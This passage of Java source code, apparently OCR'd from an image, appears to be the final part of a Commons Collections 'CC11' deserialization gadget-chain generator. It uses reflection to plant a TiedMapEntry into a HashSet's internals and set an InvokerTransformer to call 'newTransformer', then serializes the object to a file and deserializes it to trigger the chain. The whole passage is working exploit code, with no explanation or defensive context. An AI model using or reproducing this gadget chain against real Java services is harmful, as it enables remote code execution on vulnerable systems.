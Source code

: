 ```
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashset_map);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedmap);

        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");

        try{
            FileOutputStream barr = new FileOutputStream("./cc11");
            ObjectOutputStream oos = new ObjectOutputStream(barr);
            oos.writeObject(hashset);
            oos.close();
//        System.out.println(barr);

//            System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc11"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
